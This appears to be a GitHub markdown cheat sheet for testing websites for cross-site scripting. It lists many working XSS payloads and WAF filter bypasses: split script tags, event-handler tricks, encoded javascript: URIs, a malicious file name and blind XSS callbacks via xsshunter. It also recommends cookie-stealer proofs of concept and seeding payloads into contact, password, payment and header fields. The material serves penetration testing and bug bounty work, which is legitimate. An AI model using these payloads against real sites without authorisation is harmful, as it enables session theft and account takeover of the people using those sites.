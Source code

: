 <h1>Cross Site Scriping</h1>
`<h1>test<h1>`
<br>
<h2>first glance methodology </h2>
On a website that allows you to register an account, test every feature avaliable with the payload <.h1>test<./h1>(remove the . it was rendering my h1 tag on this page). Do this on every feature that allows input. <br>
Navigate the application and see if theres any places your H1 tag is interpreted. <br>
View the page source and quickly filter for test and see what encoding is in place on your input. <br>
If tags are filtered but your input is placed within a value="test" can you add test" eventhandler and does the " get filtered? <br>
If your input is directly into a script tag, can you break out the context? E.g. if your input lands within a "var" can you close the var <br>
var srchstring = 'test' - enter test'-alert(1)-' and see what happens. You may need to use a ; after the first ' - test'; -alert(1)-' <br>
Burpsuite allows you to customise scans, create a scan and remove all scans except the scan titled "reflection". Run this on your burp project file to identify all reflected inputs on the web application. <br>
<br>
Never submit a vulnerability with alert(1) show impact, use document.cookie and demonostrate a cookie stealer POC aslong as cookies are not set to httpONLY (not readable by javascript if set). <br>
<br>
<h2>Alert POC Alternatives</h2>
If alert is blocked or filtered, first try confirm(1), print() or prompt(1).<br>
Try URL Encoding the A on alert - %61lert(1). URL each char if this does not work using referemce - https://www.w3schools.com/tags/ref_urlencode.ASP <br>
You dont need a popup for a POC, you can go straight to a cookie stealer POC. <br>
<br>
<h2>Identify what is being blocked</h2>
Can you submit a <.h1> tag but if using xss payload its blocked? Write out the xss payload removing elements at a time? maybe it gets blocked on alert(1) - if so use the alert bypass. Maybe it gets blocked on the event handler? If so copy event handlers to file and use on intruder to see what is allowed? <br>
URL encode characters of the event handler one at a time and see if this successes. <br>
is it being blocked due to the spaces? remove all spaces from the attack payload - <.svg/onload=alert(1)> - <.a/href= - <.h1 id=xonmouseover=alert(1)>test<./h1>
<br>
<br>
<h2>XSS Filter Bypasses</h2> <br>
<b>Remove . from all payloads</b> <br>
Is <.script>alert(1)</script.> filtered? Try: <br>
<.scr<.script>ipt>alert(1)<./scr</script.>ipt> <br>
<.img src=x onerror=alert(1)> <br>
<.svg/onload=alert(1)> <br>
<.h1 id=x onpointermove=alert(1)>test<./h1> <br>
%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E <br>
<.randomfaketag id=x onwheel=alert(1)><br>
<.a href=javascript:alert(1)>click</a.><br>
<.ScRiPt>alert(1)<./ScRiPt><br>
Run through the payload list here on intruder and select grep for url decoded values https://github.com/payloadbox/xss-payload-list/blob/master/Intruder/xss-payload-list.txt <br>
< and > can be replace with html entities &lt; and &gt; <br>
You can try an XSS polyglot <br>
 https://gist.github.com/michenriksen/d729cd67736d750b3551876bbedbe626<br>
Try New Lines to break the firewall - newline URL encoded is %0 - <.script>%0alert(1)</script> - try with different HTML tags <br>
Try double encoding a newline break %2522 <br> 
New Line breaks often work on <.a/href=%2522javascript:alert(1)> <br>
Injecting anchor tag without whitespaces -breaking up characters with decoded value of %26Tab%3B (url decode character) between each character<br>
 Try bypassing spaces with a bullet if / does not work - <code><.svg•onload=alert(1)> </code><br>
 <br>
 <h3> File Upload XSS </h3><br>
 If you find a file upload feature, try naming the file to an xss payload. Use burp intercept to rename files <br>
 Give file xss payload name cp somefile.txt \"\>\<img\ src\ onerror=prompt\(1\)\> <br>
<br>
<h2>A href bypasses</h2>
If exploiting <a. href></a> xss and "javasript" is blocked by WAF or URL then try the below. <br>
Add any number of \n \t or \r in the middle <br>
java\nscript: <br>
Add characters from \x00- \x20 at the beginning <br>
\x01javascript: <br>
\00xjavascript: <br>
remove the space with a \ character - <.tag\href><br>
<br>
Randomise the case<br>
jaVAscrIpT:<br>
Can also use the below to get rid of the word JavaScript all together<br>
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)<br>
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)<br>
 <br>
<p align="center">
  <img src="https://pbs.twimg.com/media/Eir5smxXcAcJ4QX?format=jpg&name=large" width="800" height="600" title="hover text">
</p>
<br>


<h2>Blind Xss</h2>
Similar to Reflected Xss Or Stored Xss But you Dont get any reflection, but you get response on you server. <br>
<br>
Similar methods As given above except try putting payload which can give a callback on your server when executed. <br>
You can use https://xsshunter.com/ or Use burpcollaborator or ngrok. <br>
Try it on contact forms or similar functionality. <br>
Tips <br>
<br>
Copy every payload from your xsshunter payloads section and paste it into every field you see <br>
XSS hunter contains a payload for CSP bypass <br>
Generate some variations of your payloads (example replace < with &lt;) <br>
Where to look for Blind XSS…… <br>
1- Review forms <br>
2- Contact Us pages <br>
3- Passwords(You never know if the other side doesn’t properly handle input and if your password is in View mode) <br>
4- Address fields of e-commerce sites <br>
5- First or Last Name field while doing Credit Card Payments <br>
6- Set User-Agent, referr and host header to a Blind XSS payload. You can do that easily from a proxy such as Burpsuite. <br>
7- Log Viewers <br>
8- Feedback Page <br>
9- Chat Applications <br>
10- Any app that requires user moderation <br>
